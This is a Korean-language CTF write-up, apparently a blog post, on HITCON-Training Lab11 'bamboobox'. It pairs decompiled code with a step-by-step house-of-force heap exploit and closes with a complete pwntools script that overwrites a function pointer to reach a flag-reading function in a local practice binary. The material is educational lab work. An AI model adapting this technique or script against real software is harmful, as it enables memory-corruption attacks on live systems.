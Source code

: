 ```yaml
---
title: "[HITCON-Training]Lab11"
date: 2019-11-18
ctf: HITCON-Training
layout: post
---
```


checksec은 그냥 pie빼고 다 걸려있다.

```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

magic함수가 있는데 이거 호출해주면 될거같다.

```c
void __noreturn magic()
{
  int fd; // ST0C_4
  char buf; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("/home/bamboobox/flag", 0);
  read(fd, &buf, 0x64uLL);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

main 함수를 보면 *v3에 `hello_message` *v3[1]에 `goodbye_message` 각각 힙 영역에 저장해둔다. 

처음에 `hello_message` 를 실행해준다. 근데 case 5 보면  `(v3[1])(&buf, &buf);` 이런게 있는데 여기서 함수 포인터를 magic으로 바꿔서 실행해주면 될거다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = malloc(16uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  (*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        (v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

house of force 문제다. 익스 시나리오는 아래와 같다.

1. add로 할당

32만큼 할당해줬다.

![](https://user-images.githubusercontent.com/32904385/72174400-058c5400-341d-11ea-8955-d64477b008df.png)

2. top chunk 덮음

edit에서 heap overflow나서 top chunk header랑 size부분 덮어준다. 

![](https://user-images.githubusercontent.com/32904385/72174402-0624ea80-341d-11ea-95a9-35d8a90aa9be.png)

3. add로 main_arena.top 변경

malloc(-88)

![](https://user-images.githubusercontent.com/32904385/72174403-06bd8100-341d-11ea-8a9c-8dbf47979d00.png)

4. add로 `goodbye_message` 함수 포인터 `magic` 으로 덮음

5. 5번 메뉴 호출하면 `(v3[1])(&buf, &buf);` 은 `magic` 함수를 가르키고 있어서 magic함수 호출

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./bamboobox')
p = process('./bamboobox')
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x,y: p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
magic = e.symbols['magic']

def show():
	sla(':','1')

def add(length,name):
	sla(':','2')
	sla(':',str(length))
	sa(':',name)

def edit(index,length,name):
	sla(':','3')
	sla(':',str(index))
	sla(':',str(length))
	sa(':',name)

def remove(index):
	sla(':','4')
	sla(':',str(index))

add(32,'AAAA')
edit(0,48,'B'*40 + p64(0xffffffffffffffff)) # top chunk dup
#raw_input()
add(-88,'BBBB')
add(16, p64(magic)*2)
#raw_input()
sla(':','5')

p.interactive()
```

